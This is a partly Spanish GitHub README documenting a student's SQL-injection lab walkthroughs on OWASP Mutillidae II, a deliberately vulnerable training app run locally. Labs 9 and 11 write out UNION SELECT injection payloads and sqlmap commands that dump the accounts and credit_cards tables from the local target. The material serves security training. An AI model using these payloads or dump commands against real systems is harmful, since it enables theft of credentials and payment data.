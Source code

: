# mutillidae II 
pentesting playground | owasp labs |  sql-injection

## Introduction  💫 ##


<p align="left">
This repo is about OWASP Mutillidae II ( updating content often)
OWASP Mutillidae II is a free, open-source, deliberately vulnerable web application providing a target for web-security training. Mutillidae can be installed on Linux and Windows using LAMP, WAMP, and XAMMP. It is pre-installed on SamuraiWTF and OWASP BWA. The existing version can be updated on these platforms. With dozens of vulnerabilities and…

  *Available here for download and work in local or remote it is your Choise https://github.com/webpwnized/mutillidae*
 *Available here for run with Docker https://github.com/webpwnized/mutillidae-docker*
  
 We are working in this section labs for *SQL-Injection*
 
<img style="width:550px;height:400px;border-radius:10px;" src="https://github.com/anb100/mutillidae/blob/main/screenshots_/sql-injection.png">
</p>

## Vulnerabilities in this project  : ##
 
  - XPath Injection 
  - XSS
  - SQL-I
  - DOM Injection
 
 <p>More than a 40 vulns in the project</p>

Este repositorio contiene los retos de laboratorio Mutillidae II , descritos y con capturas para la asignatura de puesta en producción.


## Installation Mutillidae

Options:
  1. There are many options for install this project , for instance in localhost with *LAMP,XAMP,WAMP* or by containers in *Docker* I show both and I tried both
  as well.
  Here is the link for install in Docker ![ install Docker and Mutillidae ](https://www.youtube.com/watch?v=9RH4l8ff-yg) 
  *Procedure  in Docker:* 
  Download from here ![ install Docker and Mutillidae ](https://github.com/webpwnized/mutillidae-docker) clone the entire repo and follow this steps , after download go to the /mutillidae-docker folder , then just run docker-compose up .
  ![docker is ready](https://github.com/anb100/mutillidae/blob/main/screenshots_/Docker/Docker-compose-up.png) 
  After this you can browser through http: for continue the installation. just a few ajustements in database and thats all.
  Ready for SQL laps.
  
  2. Installation in XAMP or LAMP just clone this repo ![Mutillidae](https://github.com/webpwnized/mutillidae) in htdocs - www-data - etc.. and run http://127.0.0.1/mutillidae
  Activate *MYSQL and APACHE* from Control Panel.
  
  4. Read carfully the Instructions about database configuratin and *setup* .
  5. Start the labs  .
  
  
## SQL- Injection Labs Timeline 

This labs are documented in many yt videos and now here. I try to solve the labs following the instructions and reading the hints.


  - __Lab 6 SQL-I__
  <p> En este lab nos vamos a dirigir a user-info.php y podemos analizar el código de login.php . </p>
  
 <img style="width:550px;height:400px;border-radius:10px;" src="https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%206/User-lookup-SQL.png" >
   
 - __Lab 7 Walk Through__ 
 <p> First of all we need to go to /user-info.php this login is vulnerable to sql-injection I checked it before with sqlmap .
 This labs consist in bypass the login with jeremy password<p>
 
  ![bypass](https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%207%20Walkthrough/Sin%20t%C3%ADtulo.png)
 
 - __Lab 9 Finding Number of Columns__
  <p> In this lab we need to check how many columns has *the table Accounts * emulating this
   [] Select * from accounts Where username=''$ AND password='' 
   [] The $ is located where the injection is to put in (' ORDER BY 7 #) end with a hashtag for comment the *and password* . 
   [] ![obtenerColumnas](https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%209%20Walkthrough/numero%20de%20columnas.png)
   </p>
   [] Username: ' UNION SELECT 1,@@VERSION,3,4,5,6,7 -- - 
   This show the version of this database
   [] Username: ' UNION SELECT 1,SCHEMA_NAME,3,4,5,6,7 FROM information_schema.schemata  -- -
   Show the tables in database
  
  - __Lab 10 : SQL Injection - Pivoting with SQL iNjection__ 
Hint : It is possible to use SQL injection on the User Info page to access other database tables besides the user database table

Start: /user-info.php 

  - __Lab 11 SQLMap__ 
![sqlmap](https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%2011/--tables-D--dbs.png)

Commands Used in this lab: 
CC data --> $sqlmap -u 127.0.0.1/index.php?page=user-info.php&username=1" --dump -D dumpfile -T credit_cards

Password data --> $sqlmap -u 127.0.0.1/index.php?page=user-info.php&username=1" --dump -D dumpfile -T accounts

extra args: --level=2 / --risk=1

Database Extraction Comand --> sqlmap -u 'http://127.0.0.1/index.php?page=user-info.php' --data='username=pa&password=ra&user-info-php-submit-button=View+Account+Details' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' --cookie="showhints=1;security_level=0; PHPSESSID=hereyoursession;" --dbs


<details>
<summary>Details</summary>
<br />
Coding...

</details>


#### Resources Used

| ID | Bibliography                     | Repository Link                                                  |
|----|----------------------------------|----------------------------------------------------------------- |
| 1  | _Github Fancy_                   | https://github.com/abhisheknaiidu/awesome-github-profile-readme  |
| 2  | _Github Page Author of this repo_| https://github.com/anb100                                        |
| 3  | _Github CheatSheet_              | https://github.com/tchapi/markdown-cheatsheet/blob/master/README.md |

